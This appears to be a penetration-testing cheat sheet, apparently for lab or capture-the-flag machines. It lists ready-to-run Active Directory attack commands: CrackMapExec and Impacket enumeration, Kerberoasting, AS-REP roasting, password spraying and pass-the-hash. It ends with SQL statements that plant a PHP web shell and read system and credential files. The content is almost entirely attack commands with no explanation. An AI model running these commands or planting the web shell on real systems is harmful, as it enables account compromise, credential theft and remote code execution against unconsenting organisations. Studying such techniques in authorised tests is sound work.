 ### Shares 
```bash
cme smb 192.168.1.0/24 -u user -p 'password' --shares
```
### Domain users 
```bash
cme smb 192.168.1.0/24 -u user -p 'password' --users
cme smb 192.168.1.0/24 -u user -p 'password' --rid-brute
```
### Kerberoasting
```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 <DOMAIN.FULL>/<USERNAME> -outputfile hashes
cme ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```
### ASREPRoast
```bash
GetNPUsers.py -userfilr users.txt -dc-ip <ip> --outputfile ASREPHash -request '<domain>/'
cme ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
cme ldap 192.168.0.104 -u user -p pass --asreproast output.txt
```
### Getusers
```bash
GetADUsers.py -all -dc-ip 10.10.10.110 domain.com/username
```
### Enumerate domain password policy
```bash
cme smb 192.168.1.0/24 -u username -p 'password' --pass-pol
```
### Password spray
```bash
crackmapexec smb --local-auth 10.10.10.10/23 -u userlist -p userlist --continue-on-success 
crackmapexec smb --local-auth 10.10.10.10/23 -u userlist -p 'PassworSpray' --continue-on-success 
cme smb --local-auth 192.168.1.101 -u user.txt -p password.txt --no-bruteforce --continue-on-succes
cme mssql 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
cme ftp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
cme wmi 192.168.1.0/24 -u userfile -p passwordfile
```
### MSSQL
```bash
cme mssql <ip> -u user -p password -M mssql_priv
cme mssql 10.10.10.59 -u user -p 'password' --local-auth -x whoami
cme mssql 10.10.10.52 -u user -p 'password' --put-file  --put-file /tmp/users C:\\Windows\\Temp\\whoami.txt
crackmapexec winrm -u test -p test --continue-on-success 10.10.10.100
crackmapexec smb --local-auth 10.10.10.10/23 -u user -H hash 
evil-winrm -i 10.10.10.100 -u test -p password123
USE nameDb;
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
SELECT * FROM tb_USERS;
```
```
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:\xampp\htdocs\webshell.php';
mysql> select LOAD_FILE("/etc/passwd");
```
```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:\\xampp\\htdocs\\shell.php';
select LOAD_FILE("C:\\Users\\Administrator\\Desktop\\flag.txt");
```
## NFS
```bash
showmount -e 10.129.171.59
```